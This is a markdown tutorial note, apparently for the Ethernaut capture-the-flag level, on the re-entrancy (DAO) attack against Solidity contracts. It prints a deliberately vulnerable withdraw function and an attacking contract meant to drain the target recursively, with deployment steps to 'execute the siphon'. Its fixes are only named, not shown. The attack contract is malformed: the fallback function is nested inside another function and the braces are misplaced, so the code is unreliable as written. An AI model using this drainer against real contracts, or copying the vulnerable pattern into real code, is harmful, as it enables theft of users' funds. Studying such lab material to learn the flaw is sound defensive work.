



# Re-Entrancy Attack (DAO Attack)

Re-entrancy vulnerablitily: making an external function call without your function finishing its own algorithm. 

Ex:



Contract B is recursively calling contract A's call function because the balances decrement math is never reached.

Vulnerable code:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

Attacking code:

```solidity
pragma solidity ^0.6.10;

import './Reentrance.sol';

contract EthernautReentrancyAttack{
	Reentrance target;
	uint public amount = 1 ether; //withdrawal amount each time
	
	constructor(address payable _targetAddr) public payable {
		target = Reentrance(_targetAddr);
	}
	
	function donateToTarget() public {
		target.donate.value(amount).gas(4000000)(address(this)); //need to add value to this fn
		
	fallback() external payable{
		if (address(target).balance != 0){
			target.withdraw(amount);
		}
	}
	}
}
```

Deploy your attack contract with 1 ether in value at the address of the contract you want to attack.

Then donate 1 ether and then click on "Transact" in the Low level interactions tab. This will call the contract you made's fallback function and execute the siphon.

<u>**Fixes:**</u>

1. Do the arithmetic before the call to the external contract is made.



2. Mutex Lock

   

